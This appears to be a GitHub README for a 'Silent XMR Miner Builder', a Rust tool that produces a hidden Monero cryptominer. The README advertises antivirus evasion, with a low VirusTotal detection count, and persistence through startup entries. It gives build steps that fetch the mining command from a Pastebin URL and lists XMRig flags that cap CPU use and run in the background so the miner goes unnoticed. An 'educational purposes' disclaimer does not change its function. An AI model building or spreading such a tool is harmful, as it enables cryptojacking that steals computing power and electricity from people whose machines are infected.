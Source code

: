 # Silent XMR Miner Builder

Welcome to the **Silent XMR Miner Builder**! This tool lets you create a silent miner for Monero (XMR), which runs quietly in the background and is designed to avoid detection by security software. The builder allows you to customize and build your own miner executable, which you can configure to mine using your specific xmrig commands.


## Features:
- **Startup**: It adds miner to startup.
- **Instalation**: Intsalls xmrrig if not yet intsalled.
- **3 Detection on virus tottal**: [https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57](https://www.virustotal.com/gui/file/fe23ce5ded67a1c139300b3068166dccf0bcd8c2350e3b882a4e756473651d57)
- **Free to Use**: The miner builder is open-source and available at no cost.
- **Custom Configuration**: Users must create their own xmrrig configuration.

## Prerequisites:
To build and run this project, you need to have **Rust** installed.

### Installing Rust:
1. **Download and Install Rust**:
   - Go to the official Rust installation page: [https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install).
   - Follow the instructions for your operating system. Rust can be installed via **rustup**, a tool that helps manage Rust versions and associated tools.
## Verify Installation:

After installation, check that Rust is installed properly by running this command:

```bash
rustc --version
```
You should see something like this:

```bash
rustc 1.65.0 (897e37553 2022-11-02)
```
### Clone the Repository:

First, clone this repository to your local machine using Git and navigate into the project directory.
```bash

git clone https://github.com/yourusername/silent-xmr-miner.git
cd silent-xmr-miner
```

### Create Your Pastebin:

Go to Pastebin and create a new paste with your XMRig mining command. This will include things like the pool address and your wallet address.
Once your paste is created, copy the raw URL.
For example, your URL might look like this:
`https://pastebin.com/raw/yourpastebinid`
command should look like this
```bash
-o xmr-eu1.nanopool.org:10343 -a rx -k --tls -u youraddress.nameyouwant -p x --cpu-priority 1 --cpu-max-threads-hint 45 --randomx-mode light --donate-level 0 --background --cpu-affinity 1 --max-cpu-usage 35
```

### Update the Code:

Open the source code file and replace the URL in the specified line with your own Pastebin link.

```bash
let process_config = client.get("https://pastebin.com/raw/yourpastebinid")
    .send()
    .unwrap()
    .text()
    .unwrap_or_default();
```

### Build the Project:

In the terminal, inside the project directory, run the build command to compile the project in release mode.
```bash
cargo build --release
```

## A Few Important Things to Keep in Mind:

- **Customization**: Make sure your Pastebin contains the correct configuration for XMRig to mine with your pool address and wallet.
- **Be Responsible**: Only use this tool on systems where you have permission to run mining software.

## Disclaimer:

This tool is provided as-is, and it’s for educational purposes only. Please use it responsibly and make sure you have permission to mine on the system you’re using.
